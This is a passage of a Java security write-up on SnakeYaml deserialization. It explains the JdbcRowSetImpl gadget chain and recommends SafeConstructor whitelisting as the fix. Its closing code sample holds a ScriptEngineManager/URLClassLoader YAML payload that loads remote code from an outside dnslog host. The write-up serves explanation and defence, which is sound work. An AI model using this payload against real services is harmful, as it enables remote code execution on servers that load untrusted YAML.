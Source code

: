 <div align=center><img src="./images/7.png"></div>

#### Vulnerability Analysis
In short, when `SnakeYaml` is called deserialization of `Yaml.load`, it will call the `setter` method of `dataSourceName` property of `JdbcRowSetImpl` class, i.e. `setDataSourceName`, and then trigger a subsequent series of utilization chains to finally achieve the purpose of arbitrary code execution.

### Others Gadgets
Let’s go first, wait until I understand the relevant knowledge points later, and then add them. [Reference article](https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#:~:text=Spring%20PropertyPathFactoryBean).

## Vulnerability Fix
 - The `Yaml.load` parameter is prohibited from being controlled.
 - If deserialization is required, the parameter content needs to be filtered and the deserialized content is whitelisted using `SafeConstructor`.

```java
package org.h3rmesk1t.SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class ScriptEngineManagerExploit {

    public static void main(String[] args) {

        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://hfme12.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml(new SafeConstructor());
        yaml.load(poc);
    }
}
```